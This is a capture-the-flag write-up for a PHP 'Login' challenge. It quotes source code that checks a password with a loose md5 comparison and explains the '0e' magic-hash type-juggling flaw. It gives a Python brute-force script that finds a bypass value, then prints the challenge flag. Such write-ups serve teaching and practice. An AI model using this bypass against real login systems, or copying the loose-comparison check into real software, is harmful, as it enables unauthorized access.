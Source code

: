 # Login

*Just login and get the flag!*

*[http://185.235.41.189](http://185.235.41.189/)*

---

访问`/robots.txt`

```php
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

`==`是弱类型的比较,字符串在与数字比较前会自动转换为数字;`0e\d+`这种字符串会被解析为科学计数法的数字，0的多少次方都是零,所以`oe\d+` `==` `oe\d+`.

所以我们只要找到一个形如`oe\d+`且哈希后仍为`oe\d+`的字符串即可.

代码:

```python
import hashlib

i = 0
while True:
    m = hashlib.md5()
    plain = f'0e{i}'
    m.update(plain.encode('utf-8'))
    t = m.hexdigest()
    if t[:2] == '0e' and t[2:].isdigit():
        print(plain, t)
        break
    i += 1
    if not i % 10000:
        print(i)
```

`md5("0e215962017") == "0e291242476940776845150308577824"`

**flag:**`TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}`